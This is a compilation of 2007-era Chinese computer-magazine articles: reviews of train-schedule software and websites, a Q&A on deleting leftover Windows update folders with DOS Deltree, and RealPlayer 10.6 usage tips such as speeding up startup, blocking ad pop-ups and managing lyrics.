在简单介绍过本款软件后，下面笔者同用户朋友一起来体会一下这款软件的使用。

本款软件下载后需安装方能使用。安装过程十分简易，在此不做任何赘述。仅就该软件1.6版本提供一个下载地址：
`http://mdl1.mydown.com/soft/200701/qtinstallv16_mydown0124.exe` （全国列车查询系统1.6版本）
下面笔者以该版本软件为例，简单介绍一下有关本款软件的使用情况。

##### （1）“全国列车查询系统”主界面

正如笔者在前文所言，“全国列车查询系统”是一款有着一个十分宏大的名字，但页面十分精简的列车查询软件。如图5所示其主页面分为三部分：
在主界面窗口的最上方即为其菜单部分，包含“文件”、“操作”、“帮助”三个菜单。分别提供诸如页面的转化、风格个性设置、软件使用自主设置以及使用帮助等功能。
位于菜单部分下方的即为本软件的查询主体。用户朋友可在此处的“起始站”、“终到站”、“车次查询”等标签后输入内容完成查询。
在查询主体部分下方即为查询结果显示部分。本款软件提供地图显示及文字显示。可用来显示查询结果。默认状态为地图显示，如要进行文字显示，需进行设置。

##### （2）软件的个性化设置

在介绍本款软件特点时，笔者已经提到，本款软件具有很强的个性化设置功能。下面来简单看一下这些个性化设置功能。
“全国列车查询系统”的个性化设置功能可在菜单栏中的“操作”菜单中完成。在此处，可进行显示、风格、升级数据库、错误报告及选项功能的个性化设置。其中，选项功能的个性化设置将完成对软件的整体设置。
用户在想要对本软件进行整体设置时，在“操作”菜单中单击“选项”即可弹出一个窗口。其设置功能将在此窗口实现。

“选项”窗口中提供三种设置，分别是“常规”、“显示”、“搜索”设置。“常规”功能设置包括对显示时间的设置、显示功能的设置以及查询结果自动进入设置。在上文中提到的地图查询与文字查询的切换也可在此处进行设置，方法为选中合适方式前的按钮即可。关于“显示”及“搜索”功能的设置与之类似，在此不做赘述。

##### （3）地图查询

接下来笔者将简单介绍一下运用本款软件地图查询功能搜索信息的功能。
欲查询从北京发车，以成都为终到站的列车信息，则在“起始站”标签后输入“北京”，“终到站”标签后输入“成都”。单击“查询”，则在查询结果显示部分中，将逐个位置显示出符合条件的某次列车（在此处为1363次）的各沿途站点。并将其以绿色曲线连成路线地形图（图6）。

如欲查询其沿途站点信息，则将鼠标靠近该站点即可。将鼠标靠近地图中“宝鸡”二字，则自动弹出与该站有关信息。包括到站时间、离站时间及由发站到此站的共计时间。
此处需注意三点：一则标签后输入内容支持拼音、汉字输入；二则地图上方有“+”“-”号可对地图进行缩小及放大；三则如欲再查询其它线路，需单击“清除”按钮后方可继续查询。

##### （4）文字查询

“全国列车查询系统”的地图功能十分惹人注目，不过其地图查询中显示的信息并不十分直观，且不包含票价信息。因而在需要直观及更丰富的信息时，需要用文字查询功能实现。接下来将为用户朋友介绍这一功能。
“全国列车查询系统”的默认状态为地图查询，如需文字查询还需先进设置。设置方法可在“操作”菜单中进行，或不选中查询主体部分“快速选项”中的“显示图像”。二种方法皆可。

仍然以查询由北京发车至成都的列车为例。在起始站、终到站的标签后分别输入“北京”、“成都”并单击“查询”后，将在查询结果显示部分显示出有关列车的具体情况，包括其发车和到站时间、基本票价信息及路程统计。如双击该车次，则在窗口右方显示其沿途具体车站。
上文中简单介绍了本款软件的一些特点及使用方法。不过需要注意的是，本款软件的更新并不十分及时，因而使用本款软件进行查询的朋友在查询后还需与车站核对信息，提高其准确度。

##### 四、车次航班一查通

###### 1. “车次航班一查通”简介

笔者在上文中已经介绍过三款列车查询软件，其性能各有所长。然而和接下来笔者要介绍的这一款“车次航班一查通”相比起来，上述的三款软件似乎都显得罗嗦。
事实上，“车次航班一查通”正是以功能最实用、使用最方便著称的实用工具查询软件。在此处并没有称其为“列车查询软件”，实在是因为该软件提供的性能太过丰富，颇有些“一软在手，万事不愁”的架势。压缩后仅为2MB左右的软件却包含着查询航班、车次、邮政编码、电话区号、时差、手机号码归属地、IP归属地、身份证归属地查询等多种实用查询，以最简洁的外貌展现了最丰富的功能，实在不能不为用户所称道。

###### 2. “车次航班一查通”特点

作为一款十分有资格被用户称道的实用工具查询软件，“车次航班一查通”实在是优点多多。现只就其两点进行简单介绍。
首先，本款软件具有十分整洁简单的页面。笔者将此点列为软件特点，相信一定有许多用户朋友不以为然。事实上，简洁的页面一直是工具查询软件的要求。力求以最简单明了的形式提供最丰富准确的信息，是查询软件最根本的性能之一。在这点上，本款软件做的十分优秀。
其次，其提供了十分丰富的查询性能。不仅提供为出行准备的列车、航班查询，还提供邮政编码、电话区号、时差、手机号码归属地、IP归属地、身份证归属地等多种实用查询。事实证明，这些虽然是小细节，但在日常生活中十分实用。

###### 3. 使用“车次航班一查通”

虽然“车次航班一查通”提供了许多查询功能，但鉴于本文以介绍列车查询为主，在此处笔者也只就其列车查询功能进行简单介绍。如果用户朋友对该软件有兴趣，可自行试用其它查询功能。

本款软件下载后解压缩即可使用。其下载及解压缩的过程不做赘述。提供一个版本可供下载：
http://scmy.skycn.com/down/powersearcher.zip (车次航班一查通2.0版本)

下面以该版本为例，简单介绍本软件的一些使用功能。

### （1）“车次航班一查通”主界面



“车次航班一查通”的主界面（图7）十分简单明了。在标题栏下方提供“飞机航班”、“列车时刻”、“邮政编码”、“电话区号”、“时差”、“IP/手机/身份证”及“联系方式”选项。单击即可进行不同内容查询。
图7为该软件的列车时刻查询主界面。界面上方为“查询条件”部分。在此用户可输入出发地、目的地，选择显示条件，对其进行查询或反向查询。或者在“车次”标签后直接输入车次，进行车次查询，其结果将显示在界面下方空白处。

### （2）站站查询

欲查询出发地为北京、目的地为哈尔滨，显示所有相关列车信息的方式查询，则运用“站站查询”方式。在“出发地”标签后输入“北京”，在“目的地”标签后输入“哈尔滨”，选中“显示不是始发站和终点站的车次”标签前的复选框。单击“查询”，则在结果显示出区显示出有关由北京至哈尔滨的所有列车信息，包括其发车与到站时间及里程、运行时间，此外还包括部分票价信息。

“车次航班一查通”虽然简洁，但主要功能却并不偷工减料。在“站站查询”的方式中，除提供正常查询外，还提供反向查询，更加方便使用。

仍以查询由北京至哈尔滨的列车为例。单击“反向查询”按钮后，则出现由哈尔滨至北京的所有列车信息，如图8所示。



如欲查询该车次的具体信息，则双击该车次即可。
在图8基础上，欲查询有关车次的具体信息，如查询“T156/T157”车次，则双击该车次，出现其沿途各车站具体信息，含车次时间、票价等。

### （3）车次查询

除按照“站站查询”的方式进行车次查询外，本软件亦支持车次查询的搜索信息方式。以查询由北京至哈尔滨的列车为例。直接在“车次”标签后输入“T156”，单击“车次查询”，则在下方显示出有关T156次列车的信息。双击该车次，显示具体信息。

就整体而言，笔者是十分中意“车次航班一查通”这款软件的。它没有过多的花哨与多余功能，简洁明了的页面以及丰富实用的功能十分令人青睐。不过尽管具有多种优势，其仍具有小小不足，如提供的票价信息有些时候并不完备。用户朋友在使用时仍需与车站进行核对。

#### 第二篇 经典列车查询网站介绍

##### 一、火车票网

网址：http://www.huochepiao.com/
网站简介：火车票网可谓列车查询网站中最为著名的一个（图9）。其别名则是“中国最大的火车票交流平台”。在此网站中，不仅可进行对列车时刻、票价、站点、里程的查询，同时还可进行有关铁路资讯的搜索、火车票的求购与转让、有关机票的信息、酒店的预定等。同时该网站还提供论坛，注册用户可在论坛相互交流乘车体会与乘车信息。该网站的设计十分实际，服务功能与广告融为一体。尽管如此，其主要功能十分清楚，算得上是列车查询网站中的翘楚。



###### 1. 网站特点——列车查询

关于列车时间及票价的查询一直是列车查询最重要的部分。有很多用户朋友并不需要经常进行查询，没有必要专门下载并使用列车查询软件，因此需要使用时上网搜索成为其比较受青睐的一种查询方式。火车票网的更新比较及时，可以比较好地为这类用户朋友提供车次查询信息。其提供的信息查询方式包括始发站/终点站查询、车站查询与车次查询。用户朋友可输入站名或车次后直接进行查询。

###### 2. 网站特点——车票求购与转让

说到有关车票问题的同时，需要简单比较一下列车查询软件与列车查询网站的不同。首先由于平台的限制，软件的更新并不如网站的更新及时。其次，网站的设置使得其有平台可以提供给用户进行交流，从而完成票务的求购与转让，实现用户的多方共赢。
火车票网作为较为优秀的列车查询网站，其用户访问量一直很高。高人气也为其对车票的处理提供了良好的先决条件与基础。一传十、十传百的效果使许多用户都愿意在该网站刊登求购或者转让的票务信息，这也让火车票网有实力以“中国最大的火车票交流平台”作为其响当当的别名。

###### 3. 网站特点——网站论坛

火车票网的论坛亦是该网站的一大特色。论坛的设置使得为出行做准备的查询不再简单枯燥和公式化，所有交流的查询更具人性化。
火车票网的论坛可直接浏览，亦可注册后登录。其分为多个版块，包括票务交流、火车驿站、我要灌水、心情驿站

##### 二、火车网

网址：http://www.huoche.com.cn/

网站简介：火车网与上文中提到的火车票网从名称上仅差一字，但风格上可是大大不同。比较其界面即可发现（图10），与火车票网相比，火车网的主页面缺少了浓墨重彩，取而代之的是简洁与一目了然的清晰页面。这也正是该网站的设置风格与目的，以简单代繁杂，以专业代花哨。与火车票网昭示其为“中国最大的火车票交易平台”不同，火车网的标语是“专业的查询从这里开始”。


火车网作为以专业查询为特色的查询网站，其涉及内容不仅仅包括铁路列车的查询，还包括酒店、特价机票、各城市公交线路的查询，十分丰富好用。且其在列车查询上也下足功夫，不仅提供列车的车次、时刻、票价查询，还提供转车方案，以及信息记录功能，可以帮助用户记录感兴趣的车次以备比较。选择。同时，该网站亦提供刊登票务求购与转让的平台。可免费注册BBS，注册用户可在BBS发帖交流心得与交换信息。总体而言，火车网是一个设计非常贴心、人性化、且提供丰富专业查询的网站。

###### 1. 网站特点——人性化的查询记录

在前文中已经提到，火车网的一大特点即在于其人性化的网站设计。在进行列车查询时，用户朋友即可深刻体会到此点。对于非注册用户，火车网会在不关闭页面的情况下为其记录其所查询过的所有列车信息，以备用户选择比较之需。而注册用户朋友更可将信息“收藏到我的地盘”，以备以后查看。这一细节虽小，不过也体现出该网站的用心。

###### 2. 网站特点——专业的转乘方案

并不是所有的车站之间都可直达——这当然是共识。尽管有这样的共识，但在查询转乘方案时，着实也让各位用户头疼一番。在众多的线路中挑选出合适的线路，看似实难。火车网在这方面充分体现出其专业查询网站的特色。在列车查询时如果没有合适的直达线路，其将显示出可选的中转方案以备选择。例如在查询由北京到随州的乘车方案时，其提供图示方案。火车网当然不是简单的提供方案就结束查询，用户如需了解该方案的具体情况，只需单击方案后的“详细时刻”。出现从北京至随州在武昌站转车的方案，用户可选择合适的时间进行转车。同时，在此处亦可单击车次名称，查看该车次具体信息。

###### 3. 网站特点——贴心的论坛设计

火车网的论坛设计同样十分贴心且具人性化。其记录着用户的信息，并及时显示如“XXX将要乘坐XXX次列车”这样的温暖话语，让人有被关注的亲切之感。常有用户夸赞火车网的BBS使得出行不再是一件枯燥无味的事，陌生人也变得熟识起来。值得一提的是，火车网的主界面上最显眼处均是用户会关注的车次查询及票务信息，令人头昏脑涨的广告则寥寥无几，其专业精神非常值得称道。

##### 三、中华铁路网

网址：http://train.chinamor.cn.net/

网站简介：中华铁路网是一家老牌列车查询网站。其不仅提供列车的信息查询，还包括铁路交通含新闻、法规、页等多种信息查询，其他交通如机票、长途汽车、公共汽车、租车等信息查询，以及各种实用工具如手机归属、年历节日、邮政编码、IP追查等信息查询。内容包罗万象，十分丰富。同时提供各种票务求购与出售刊登平台。页面设置十分传统，主界面国味十足。

有别于其它网站，中华铁路网的查询风格似乎是想将所有信息一网打尽。如查询“空调T1”次列车时，其不仅会列出有关列车的详细信息，同时还会提供有关附近的地理、旅游、车票转让、公交线路、酒店、机票等信息，十分丰富。不过由于并不是每一列车站都具有该类信息，故这类信息中也常有许多为空，用户不可尽信。

结语：在资讯闭塞的年代，“苦行”往往是出门远行的别名，而在交通迅速发展、网络不断更新的现在，当然不可再闭门造车。“如欲出行，必找参谋”，这参谋是谁？必然是各位用户朋友可以掌握的各类查询软件与网站。笔者介绍了四款较为优秀的列车查询软件，对其特点及使用方法进行了简单的说明。同时，推荐了三家较为出色的列车查询网站，对其网站风格及特点进行了简要的分析，希望能对各位有乘列车出行需要的用户朋友有所帮助！

### 傻博士问答：删除隐藏属性文件夹

故障现象：在升级Windows XP时，由于打开了系统还原功能，因此升级时中途退出。现在E盘出现了E:\1df7557653120d3951ef0cfedc86\sp2、E:\1722f2b0ff6bac8a9602934c944f04e3\sp2、E:\e28bd14eec13bcl6b6a255\update等诸类文件夹，属性为只读，更改文件夹属性被拒绝，提示：拒绝访问。在注册表里进行查询也没有结果，无法删除这类文件夹。

故障分析：在Windows操作系统下，这些文件夹是系统属性，因此无法更改并且删除。

解决方法：对于这类在Windows下难以删除的文件，我们一般可以动用DOS命令。首先使用Windows98/Me的启动盘引导系统，然后输出Deltree+文件夹路径与名称，此时可以无条件删除，因为这些系统文件在DOS下将不受保护。需要提醒用户的是，Deltree命令应该谨慎使用，必须确认该文件夹可以安全删除后再执行。

### RealPlayer 10.6 2007 常用技巧大放送

◆文 / TMG zcy


引言：在这个网络多媒体走红的时代，为了满足广大网络用户的多媒体需求，各大商家都纷纷推出自己的媒体播放软件。而RealPlayer一直以来深受人们的喜爱，成为装机必备的软件之一。它是网上收听收看实时音频、视频和Flash等文件的最佳工具，可以让你享受更丰富的多媒体体验，成为网络上称王称霸的角色。此外，更是由于目前网络上的国内外大多数电台都是采用RealPlayer格式，而且它还为我们提供了自动更新功能，让我们随时准确知道电台的节目，于是RealPlayer变得更加的光彩夺目。

2007年8月28日，Real宣布了其RealPlayer 10.6 2007增强版正式发布，这款增强版的RealPlayer可以算得上是特别为广大中国用户量身定做，不但具备了流媒体的强大播放功能，还联手酷我这一国内领先的音乐软件公司开发了歌词功能。从此，我们不再需要特地安装一个用来了解歌词的音乐播放软件了，RealPlayer就能帮你实现梦想。

作为一款老牌软件的RealPlayer，其使用范围极其广泛，但殊不知，它也有很多的独到之处。下面就给大家介绍一些常用技巧，相信有了这些技巧，你一定能够更加玩转RealPlayer。

RealPlayer 10.6 2007增强版推荐下载地址：http://www.skycn.com/soft/1758.html

#### 一、技巧系列之No.1 ——RealPlayer快速启动

##### 方法一：修改软件主页和广告关联

经常使用RealPlayer的用户都有亲身的体验，不论哪个版本，该软件在启动时，其运行的速度都是不甚理想的，即便是RealPlayer 10.6 2007增强版也是一样，那么这个问题是不是无法解决呢？

事实上，RealPlayer启动时经常是伴随着软件主页和广告等一并启动，而一般的用户在使用的时候并不需要这些内容，一经打开后还要手动关掉，这些内容构成对软件启动的阻力。但是我们可以通过一些途径将它们修改，具体的做法是：

我们在Real的安装文件夹中找到“firstrun.smi”和“getmedia.ini”两个文件，当然也可以通过搜索的方式进行。然后我们将它们进行更名，比如将两个文件分别改为“firstrun_bak.smi”和“getmedia_bak.ini”。现在再来试一下吧，是不是打开软件要比原来快很多了呢？

##### 方法二：隐去作品简介

此外，我们还可以通过另一种途径来进行软件启动速度的优化，那就是在软件正常运行时，单击菜单栏中的“视图”选项，然后在下拉菜单中选择“专辑信息”，选中“隐藏”选项（如图1）就可以了。这样就可以隐去作品的简介，也会给运行速度带来很大的提升。



##### 方法三：禁用开机加载自动更新

其实，影响RealPlayer启动速度的还有一个内容，那就是“消息中心”的运行，而且，这一消息功能也往往是在开机伊始就工作了。当然，这无疑会对软件的启动速度造成影响，因此我们可以通过如下的方法来解决：

首先，启用软件后，我们通过单击菜单栏的“工具”选项，选择“首选项”，然后切换至“自动服务”面板，

于是我们就可以看到一个“配置消息中心”按钮，单击进入后就看到如图2的一个新窗口。这时，我们清除掉“检查新消息”复选框，单击“确定”按钮即可。



这样一来，Real就不会自动进行新消息的检查了，软件启动更轻松。

通过上面的三种方法对RealPlayer进行一些调整后，软件启动缓慢的问题基本上就可以解决了。现在，我们就来亲身感受一下吧，启动RealPlayer就跟Winamp差不多快了！软件主页和广告也都不再出现，启动软件变得很轻松！

#### 二、技巧系列之No.2 ——RealPlayer历史记录清除

细心的朋友可能经常会发现，每当我们打开“文件”菜单的时候，会看到它的下拉菜单中有很多文件的历史记录。其实这款软件在其他地方也一样存在很多历史记录，这些都为我们的日常操作平添了不少的干扰。那么如何来清除这些记录呢？

##### 方法一：禁止在“文件”菜单显示历史记录

我们单击软件主界面的“工具”选项，然后打开“首选项”对话框，选择“常规”类别，然后再清除“允许在‘文件’菜单中显示历史记录列表”前面的复选框即可。

可是，如果我们再单击“文件”→“打开”→“浏览”，然后选择窗

##### 方法二：删除历史记录文件

单击“工具”菜单中的“首选项”，选择“常规”，然后再单击“清除历史记录”按钮，在出现的对话框中单击“确定”按钮就可以了。最后单击“确定”按钮返回主界面。
此外，我们同样可以找到刚刚提到的“History”的文件夹，然后将其中的内容进行删除。我们进入“C:\Documents and Settings\用户名\Application Data\Real\RealPlayer\History”，然后选中所有的文件，右击“删除”，搞定。

#### 三、技巧系列之No.3 ——图片也能放幻灯

谁都知道RealPlayer是一款非常著名的媒体播放软件，放电影、听广播、欣赏音乐都手到擒来，可是静态的图片呢？是不是RealPlayer就拿它没办法了呢？
其实，说出来可能大家都会感到惊奇，RealPlayer不仅可以播放如MP3、AVI、DVD、DAT、MPG和MPEG等众多音视频媒体格式，还能浏览图片呢！而且它的浏览效果一定能够让你十分惊喜。知道了这一点后，相信以后你再给朋友秀照片的时候，一定会首选RealPlayer!
用RealPlayer来浏览照片的操作方式其实很简单，我们只需要首先运行软件，然后右击“我的电脑”，选择“资源管理器”，在这里找到你要浏览的照片。找到照片后，选中该照片，直接将其拖放到RealPlayer的界面中就可以了。
RealPlayer播放照片的方法就像播放视频文件一样，每张图片的播放时间是5秒钟。如果是单张图片，RealPlayer会重复地对该照片进行播放；如果是多张照片的话，我们首先要在“资源管理器”中同时选择多个图像文件，然后直接拖放进去。这时候你就会发现，RealPlayer连续播放多张照片的效果就如同播放幻灯片一样，真的很有趣。最重要的是，它的操作还很简单哦！

#### 四、技巧系列之No.4 ——广告不再弹出来

我们在使用RealPlayer时，很多人都发现了它的一个致命缺点，那就是播放很多视频文件时都会弹出网页窗口。即便是我们通过网络下载的视频文件也一样存在这样的问题。本来弹出广告补丁是RealPlayer的一项功能特色，但一些压制视频文件的组织或个人就利用了这个功能特点，让视频文件在播放的同时弹出一些垃圾广告。全屏播放的状态下视频文件由于广告的弹出，就会突然缩小到原始状态，因此用户不得不选择其他的视频软件来播放。这还暂且可以忍受，更有甚者居然借此散播木马病毒，给用户带来了很大的困扰。
解决这个问题其实还是有很多方法的，如：

方案一：修改安装目录
我们首先找到默认在“C:\Program Files\Real\RealPlayer\rplugins”中的两个文件，其文件名分别为：“RPUT3260.DLL”和“RPWE3260.DLL”，然后对这两个文件进行文件名的修改，比如将二者的扩展名改为“DL”等。
但是，值得注意的是，这两个文件进行修改后，软件的“首选项”设置就不能使用了，因此，如果通过这种方式拦截广告补丁的话，应该在修改文件名之前对软件的首选项进行相应的设置。

方案二：使用拦截软件
目前，针对RealPlayer的这一问题，众多可以解决这一问题的软件就诞生了，比如“Real恶意事件清除工具”，用户可以通过http://www.downlife.com/soft/5030.htm等网站进行下载。
“Real恶意事件清除工具 1.0绿色简体中文特别版”可以提高下载RM/RMVB格式文件的安全性，做到对Real媒体播放内容进行过滤。
此外，还有一些类似的软件，都可以做到对广告补丁的拦截，如“RealPlayer广告拦截超级助手”，可以对广告进行实时拦截。推荐下载网址：http://www.skycn.com/soft/26490.html。此外，该软件还具有智能播放功能，例如在播放完《不能说的秘密A.rmvb》后，RealPlayerAssist会自动播放《不能说的秘密B.rmvb》，给用户节省了不少的时间哦！

#### 五、技巧系列之No.5 ——自动捕获在线视听文件下载链接

我们都有过在线收看或收听视听文件的经历，这些视听网站提供的电影或音乐往往只能在线收看或收听而不提供下载功能。其实，这是它们的一种伪装伎俩，用一些技术手段将真实的下载链接隐藏起来，用户在使用的时候就无计可施了，而RealPlayer就可以帮你完成任务，直接捕获在线视听文件下载链接。
很多提供在线视听文件播放的网站都是采用了自动调用Real播放器的形式，我们只需要单击播放的链接，系统就会直接启用RealPlayer。这时候，我们只需要直接在打开的RealPlayer界面上单击菜单栏的“文件”选项，然后选择“剪辑属性”→“查看剪辑信息”，就可以出现剪辑信息了。
在这里我们不难看出，当前播放的该视听文件的下载地址一目了然。然而，对于那些Real播放器内嵌于网页中的情况，我们可以在网页中右击Real播放器并在弹出的快捷菜单中选择“用RealPlayer播放”。这时，Real播放器便会立即弹出，接下来我们便可以按照同样的方法查看RealPlayer的“剪辑信息”，从而捕获在线视听文件的下载链接。

#### 六、技巧系列之No.6 ——老机器如何更好地使用RealPlayer

对于RealPlayer来说，它可以通过改变自身对电脑硬件的使用情况来获得多媒体文件更优质的表现力。对于那些使用旧机器的用户来说，电脑的声卡和CPU等都不占优势，有些视频文件在正常播放时可能就会出现不流畅等现象。因此我们可以通过如下措施来进行优化：
首先，对于CPU的使用率来说，一款旧机器的CPU本来就性能偏低，如果我们仍然默认RealPlayer较高的CPU使用率的话，那么恐怕电脑的反应速度就会大大下降了。因此我们要对软件的硬件使用情况进行适当的调节。具体做法是：单击“工具”→“首选项”，然后选择“硬件”类别，就可以进行调节了。
这时，我们需要将CPU占用率滑块左移，但是具体移多少，就要根据机器的性能而定了。一般意义上来讲，我们以调整至不超过一半位置处为宜，并且将“启用全屏视频控制”复选框清除。最后，单击“确定”按钮返回。
对于声卡较旧的电脑，我们还可以通过单击“工具”→“首选项”，切换## 七、技巧系列之No.7 ——歌词新体验

以前我们经常是为了获得歌曲的歌词而特地下载“千千静听”等具备这一功能的软件来使用，装机时也要多安装一个这样的软件以备平时所需。而现在，RealPlayer 10.6 2007增强版就帮你省去了这一麻烦，有了这个一个宝贝就足够了，看电影、听广播、边看歌词边听歌都没有问题。

RealPlayer 10.6 2007增强版针对中国用户听音乐的习惯和诉求，特别联手酷我这一国内领先的音乐软件公司，开发了它的歌词精准匹配功能，从此用RealPlayer来听歌一定会有一个全新的体验。

RealPlayer 10.6 2007增强版的歌词功能十分强大，而且充满了人性化的设计理念，下面就来给大家介绍一下吧。

##### 体验一：显示酷我窗口

首先，如果我们要在听歌的同时显示歌词信息的话，其前提就是一定要使用酷我歌词窗口，否则即便是歌词再精彩你恐怕也看不到哦！

有的朋友反映说，常常找不到酷我歌词的窗口，更看不到歌词，这是因为用户将视觉外观选错了，作为可视化风格插件的酷我歌词窗口不能在任何视觉外观下都施展才华。因此用户一定要自己重新设置一下。

当然，对视觉外观的设置再简单不过了，我们只需要单击菜单栏中的“视图”，选择“选择视觉外观”中的“KooWoLyrics for Real”就可以了。这下子，歌词就显身了。

##### 体验二：歌词智能识别

以前我们用其它的软件来听歌看歌词，都有过这样的体验，就是有时候软件不能很好地找到歌词，更有可能找到不相匹配的歌词内容。这样的情形并不少见，那么RealPlayer在播放歌曲时在这一点的表现又是如何呢？

酷我歌词采用独创的音频指纹识别优化技术，是通过歌曲旋律来准确识别出歌曲名和歌手名。对于不准确的歌词，酷我技术可以自动对其进行识别和查找，从而能保证歌词的精确匹配。

我们用RealPlayer播放歌曲时，如果歌曲信息不准确或不完整，酷我歌词就会提示“启动酷我识别，找到歌词”，单击这一链接后，我们就会看到一个“酷我识别”窗口，如果同一首歌曲有多个歌词版本，它还可以让我们手动选择完成。当然，如果识别后的结果确认无误的话，就可以单击“确定”按钮，这时酷我就会按照识别结果来准确下载相匹配的精准的歌词内容。所以以前用其它软件找不到歌词的歌曲用RealPlayer来播放的话，一下子就都能帮我们找到同步歌词了，是一个相当实用的功能。

其实，手动选择尽管准确，但是这样的操作也真的是很烦人。因此，用户可以在歌词位置右击鼠标选择“选项”，然后在新出现的窗口中选择“歌词设置”，然后分别勾选“自动修改（系统根据识别结果修改歌曲Tag信息）”、“自动识别（系统调用识别机制查找歌词）”和“有多个选择时自动下载最佳”三个复选框（如图4），单击“确定”按钮后，系统就会自动下载同步歌词了，十分便捷。



怎么样？用酷我就是酷，有了RealPlayer，播放歌曲再也不用担心会找不到歌词或是下载到错误歌词了。而且歌词的显示和歌曲的播放同步进行，无需多等。

##### 体验三：快速调整歌词时间

下载了准确的歌词，并及时地显示了出来。但是如果歌词的时间和歌曲的播放不同步怎么办？RealPlayer还特别准备了调整歌词时间功能。

调整歌词时间的操作很容易，在歌词内容处右击鼠标，选择“调整时间”选项，就可以进行调整了，从下图（图5）我们可以看出，软件支持“提前0.5秒”和“延后0.5秒”以及“全局调整”操作，用户可以根据实际情况进行0.5秒的歌词提前或延迟调整。我们还可以单击“全局调整”对全部歌词进行时间调整，使用起来更加方便。但我们一定要注意的是，只有在歌曲播放时才会显示歌词的右键菜单，才能进行上述的各种操作。



##### 体验四：复制管理歌词

我们都知道，LRC歌词是一种通过编辑器将歌词按歌曲歌词出现的时间编辑成一个文本，并且在播放歌曲同时、同步、依次显示出来的一种歌词文件。

把LRC歌词和歌曲命名为相同的文件名置于同一文件目录下，然后用能够显示歌词功能的媒体播放器播放此歌曲，歌词就可以同步显示出来了，非常方便我们查看和学歌。

因此，RealPlayer以及一些其它的媒体播放器在播放歌曲时所显示的歌词也同样属于LRC歌词的格式。然而如果是对这种歌词进行保存的话就比较麻烦了，因为它的歌词内容是由时间值和歌词文本组成的，我们必须要通过手动清除时间值才能够最终获得纯歌词文本。可是用RealPlayer就不用这么麻烦，直接进行复制就行了，不相信吗？那么就来亲自尝试一下吧！

右击鼠标，再选择“复制歌词”选项，然后系统就会自动地从LRC歌词中提取出歌词纯文本，绝对不含时间信息，经过如此简单的操作后我们随意地打开一个Word文档或写字板都可以将歌词粘贴进去了。当然，这样保存歌词内容我们可以用于多种途径，这就要看不同用户的实际需求了。但是，就管理歌词而言，我们每天用RealPlayer听歌，时间一长，歌词文件也会越来越多。因此，我们可以对歌词文件进行系统的管理。





管理歌词其实很方便，如果你的歌曲文件有专门的保存路径的话，并且经常需要将歌曲和歌词文件同步拷贝进入MP3/MP4中，就要进行如下的操作：

右击鼠标，选择“选项”，将窗口切换到“歌词设置”面板，然后选中“保存成歌曲文件相同的文件名”和“保存到歌曲所在的文件夹”两个复选框，单击“确定”即可保存成功。于是，这样下载的歌词文件就会与歌曲保存于同一路径下了，并且文件名一致，往MP3/MP4机中同步拷贝也很方便。

##### 体验五：本地歌词也能用

如果你想把歌词保存在其它的指定文件夹中，便于自己统一管理的话，也可以在进行歌词设置的时候不选中“保存到歌曲所在的文件夹”复选框，而是单击“浏览”按钮，将其添加到相应的文件夹内，然后单击“确定”按钮返回，这样以后再下载的歌词就全部保存到这个文件夹中了，管理起来就更为方便了。

不论是复制保存纯文本内容，还是进行歌词文件的管理，RealPlayer都可以帮你轻松搞定，查找歌词不再麻烦。

如果你以前用过其它的可以显示歌词的音乐播放器听同一首歌曲的话，你的电脑中就一定曾经下载过相应的歌词内容。那么如果你现在用RealPlayer重新下载的话未免就有些浪费了。

其实，用RealPlayer进行歌词搜索的时候，我们可以让它首先在本地搜索，如果搜索不到的话，再到网络上去寻找，这样就更快捷了。而且如果电脑在不上网的条件下也可以显示原有的歌词内容，那才叫做实用。其具体的操作过程是这样的：

右击歌词内容选择“选项”，再切换至“歌词设置”面板，单击“添加”按钮把本地歌词的保存路径添加入“搜索本地歌词”列表中就可以了（如图6）。

设置成功后，在以后的工作中，RealPlayer就会先搜索本地的歌词内容，本地没有匹配的歌词才会再去网上下载，这样一来就避免造成对已有资源的浪费。

##### 体验六：批量修改MP3歌名

如果歌曲文件的名称不规范的话，可能对于任何一款播放器来说，搜索歌词内容再同步显示都是一个不小的挑战。而且，一般来讲，一般歌曲光盘里面的歌曲都是按照CD1、CD2等格式来命名的，这样一来，歌曲名和歌手等信息就都无处可寻了。因此，我们只能进行相应的重命名整理，如果一个一个文件进行重命名的话，那就会比较麻烦了。

其实我们可以通过RealPlayer来自行重命名，只要你的歌曲满足其ID3信息完整的条件就可以了。ID3位于MP3文件的开头或末尾的若干字节内，其内容包含该MP3的歌手、标题、专辑名称、风格等信息。我们可以在MP3文件“属性”窗口下的“摘要”标签中查看到。

那么，到底如何用RealPlayer对MP3歌曲进行自动整理呢？

首先我们将需要整理的所有歌曲都放在一个文件夹下，然后启动RealPlayer，单击菜单栏“文件”→“将文件添加至我的媒体库”，再在“添加文件”窗口中将歌曲文件夹中的歌曲全部选中，单击“打开”。

接下来，我们单击“工具”→“首选项”，在新窗口中切换到“我的媒体库”→“我的媒体库高级设置”面板。分别单击“更改文件名”和“更改子文件夹”按钮，对歌曲的命名和歌手文件夹的命名进行定义，这时候，只需要在命名窗口中选择相应的ID3信息就可以了。

然后，单击“应用于现有媒体”按钮，在弹出的窗口中点击“浏览”按钮把两个文件夹都改成保存歌曲的文件夹，然后单击下面的“更改文件名”按钮（如图7）。

这时，如果我们打开保存歌曲的文件夹看的话，自动分好的文件是不是看上去很舒服呢？可是，针对那些ID3信息不完善的歌曲，用户恐怕就只能自己手动进行整理了。

相信通过六种不同的全新体验，你一定会感觉到RealPlayer强大的歌词功能为广大的音乐爱好者带来了更多的不俗享受。

## 八、技巧系列之No.8 ——显示有绝招

##### 绝招一：图片背景，百变造型

普通歌词秀软件的歌词字幕的背景都是采用单一色调设计，而RealPlayer的酷我歌词则选用了一款漂亮的图案背景。更值得一提的是，它还可以支持用户自己设置图片背景功能，用歌手照片或是自己拍的照片做歌词背景一定会是一个不同的感受。

随意地更换背景图片，这样的效果不仅与众不同，而且可随时变化，让美丽收放自如。

我们先用RealPlayer播放一首歌曲，然后右击歌词窗口，依次选择“背景设置”→“其它背景设置”选项，选择“背景图片”单选框，单击“选择”按钮，然后就可以自行指定一张本机中的图片了。单击“确定”按钮后，歌词就显示在自己选定的图片上了，效果很棒吧。

怎么样？采用图片做背景，再配上滚动歌词，效果真是一级棒哦！要是用自己的照片的话，更会给你带来不一样的感觉。

##### 绝招二：图片明暗，你说了算

本来很光亮照人的图片，一经设置为背景后，就会被酷我歌词自动调暗，这样看上去的效果的确不怎么好看。当然，酷我歌词的这一默认设置完全是为了避免图片和歌词颜色发生冲突，从而使歌词的表现更出色。如果你觉得它不够漂亮的话，还可以自行手动进行修改来满足自己的审美需求。

